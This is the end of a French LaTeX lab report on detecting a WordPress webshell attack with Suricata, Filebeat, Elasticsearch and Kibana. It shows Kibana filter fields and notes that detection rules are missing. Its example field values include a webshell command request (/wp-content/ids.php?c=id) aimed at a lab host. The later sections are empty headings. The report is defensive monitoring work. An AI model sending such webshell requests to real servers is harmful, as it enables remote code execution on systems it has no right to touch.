  
\includegraphics[width=\linewidth]{Image/Image_Attaque_2/Log_suricata.png}
  \caption{Événement HTTP enregistré par Suricata correspondant à l'appel du webshell.}
  \label{fig:wp_evejson}
\end{figure}

\begin{figure}[htbp]
  \centering
  
\includegraphics[width=\linewidth]{Image/Image_Attaque_2/Logs_suricata.png}
  \caption{Capture en temps réel des requêtes vers \texttt{ids.php} dans \texttt{eve.json}.}
  \label{fig:wp_tail}
\end{figure}

Après transfert par Filebeat, ces événements sont indexés dans Elasticsearch et
exploitables dans Kibana. Les champs utiles pour reconstituer l'attaque sont
récapitulés dans la Table~\ref{tab:wp_fields}. Un filtre tel que
\texttt{url.original : *ids.php*} isole l'activité du webshell, et
\texttt{source.ip : "192.168.2.12"} regroupe l'ensemble du trafic malveillant
provenant du poste attaquant.

\begin{table}[htbp]
  \centering
  \begin{tabular}{@{}lll@{}}
    \toprule
    \textbf{Donnée} & \textbf{Champ Kibana} & \textbf{Exemple de valeur} \\
    \midrule
    IP de l'attaquant   & \texttt{source.ip}           & \texttt{192.168.2.12} \\
    IP de la cible      & \texttt{destination.ip}      & \texttt{192.168.2.90} \\
    Port visé           & \texttt{destination.port}    & \texttt{8080} \\
    URL complète        & \texttt{url.original}        & \texttt{/wp-content/ids.php?c=id} \\
    Méthode HTTP        & \texttt{http.request.method} & \texttt{GET} \\
    Type d'événement    & \texttt{suricata.eve.event\_type} & \texttt{http} \\
    \bottomrule
  \end{tabular}
  \caption{Principaux champs Elasticsearch permettant de retrouver l'attaque dans Kibana.}
  \label{tab:wp_fields}
\end{table}

\subsection{Synthèse}

Ce scénario démontre qu'une vulnérabilité applicative connue permet, en quelques
étapes, de passer d'un simple accès réseau à une exécution de code complète sur le
serveur. Du point de vue défensif, il valide la capacité de la chaîne
Suricata~$\rightarrow$~Filebeat~$\rightarrow$~Elasticsearch~$\rightarrow$~Kibana à
offrir une visibilité complète sur l'attaque~: chaque requête malveillante est
journalisée et reste recherchable a posteriori. Il met toutefois en évidence une
limite~: en l'absence d'un jeu de règles applicatif, Suricata assure la
\textit{visibilité} des transactions mais ne lève pas d'\textit{alerte} automatique
sur ce type d'attaque. L'ajout de règles de détection dédiées (par exemple sur
l'accès à un fichier PHP inconnu dans \texttt{wp-content} recevant un paramètre de
commande) constitue une piste d'amélioration naturelle.

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
\section{Scénario 3}\label{sec:Q4} 
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
\section{Scénario 4}\label{sec:Q5} 
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
\section{Scénario 5}\label{sec:Q6}
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
\section{Résultat et Discussion}\label{sec:Q7}
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
\section{Conclusion}\label{sec:Q8}
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%



\end{document}